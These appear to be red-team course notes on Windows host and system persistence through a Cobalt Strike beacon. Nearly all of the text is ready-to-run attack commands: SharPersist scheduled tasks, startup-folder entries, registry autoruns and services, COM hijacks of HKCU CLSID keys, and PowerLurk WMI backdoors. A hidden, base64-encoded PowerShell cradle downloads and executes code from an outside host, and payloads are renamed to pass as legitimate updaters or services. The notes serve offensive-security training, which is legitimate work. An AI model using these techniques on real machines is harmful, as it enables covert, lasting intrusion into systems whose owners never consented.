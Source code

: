 # Host Persistence

No commands in CS, so need other tools like [SharPersist](https://github.com/fireeye/SharPersist). SharPersist has the parameters:
  * -t - desired persistence technique
  * -c - command
  * -a - any arguments for that command
  * -n - task name
  * -m add - adds the task (also remove, check and list)
  * -o - task frequency
  * For Startup Folder:
    * -f - filename to save command as
  * For Registry AutoRun:
    * -k - registry key to modify
    * -v - name of the registry key to create
  * 

## Task Scheduler

Allows a payload to execute on a trigger such as time of day, user logon, idle, when the computer is locked, or a combination. Good to base64 encode the command due to quotation confusion (it's Unicode encoding).

Examples:
* Linux shell:
  ```
  set str 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
  echo -en $str | iconv -t UTF-16LE | base64 -w 0```
* or PS:
  ```
  $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
  [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))```
* On beacon:
  ```execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded command string>" -n "Updater" -m add -o hourly```

## Startup Folder
On beacon:
  ```execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded command string>" -f "UserEnvSetup" -m add```

## Registry AutoRun

AutoRun values in HKCU and HKLM allow applications to start on boot. Commonly used for software updaters, download assistants, and driver utilities.

On beacon:
  ```
  cd C:\ProgramData
  upload C:\Payloads\http_x64.exe
  mv http_x64.exe updater.exe  // renames on Linux
  execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
  ```

## COM Hijacks

### Registry

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) (in [Sysinternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)) shows real-time file system, registry and process activity. It's useful for finding privilege escalation primitives. Practice locally or in a VM.
* Launch procmon64.exe on Attacker Desktop
* Filter for:
  * RegOpenKey operations
  * Where the Result is NAME NOT FOUND
  * Path ends with InprocServer32
* Look for CLSIDs that get loaded frequently, but not constantly (e.g. HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32)
* To see where it's loaded, in PS:
  ```
  Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
  Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
  ```
* If it shows that it exists in HKLM but not HKCU:
  ```
  New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
  New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
  New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
  ```
* When DllHost.exe loads the new COM entry, we get a beacon.
* Remove the registry entries from HKCU and delete the DLL to clean up.

### Task Scheduler

Many default Windows tasks use Custom Triggers to call COM objects. Look for tasks triggered when a user logs in. This gives effective reboot persistence. To find compatible tasks:
```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks) {
  if ($Task.Actions.ClassId -ne $null) {
    if ($Task.Triggers.Enabled -eq $true) {
      if ($Task.Principal.GroupId -eq "Users") {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
} } } }
```
1. Look the tasks up in Task Scheduler
2. ```Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"```
3. Do the HKLM/HKCU check above
4. Add a duplicate entry as above

# System Persistence

Maintain elevated access to a machine without having to exploit a vulnerability again (if patched later). The above methods break a legit service, so can't be used on system services -- instead, we create our own service. SYSTEM processes use P2P or DNS beacons, not HTTP beacons. These methods only work in a high priv beacon.

## Windows Services

On elevated beacon:

```
cd C:\Windows
upload C:\Payloads\tcp-local_x64.svc.exe
mv tcp-local_x64.svc.exe legit-svc.exe

execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add
```
This makes a new service in a STOPPED state, but with the START_TYPE set to AUTO_START.

## WMI Event Subscriptions

Persistence via WMI events leverages these classes:
* EventConsumer: the action to perform (e.g. execute a payload)
* EventFilter: trigger that we can act upon (e.g. process starts, user logs in, USB device is inserted, specific time of day, or when an interval elapses)
* FilterToConsumerBinding: links an EventConsumer and EventFilter

[PowerLurk](https://github.com/Sw4mpf0x/PowerLurk) builds these WMI events, e.g. from a beacon:
```
cd C:\Windows
upload C:\Payloads\dns_x64.exe
powershell-import C:\Tools\PowerLurk.ps1
powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe
```
Open notepad on Workstation 2 and the DNS Beacon will appear.

View the classes: ```Get-WmiEvent -Name WmiBackdoor``` 

Backdoors can be removed by ```Get-WmiEvent -Name WmiBackdoor | Remove-WmiObject```.

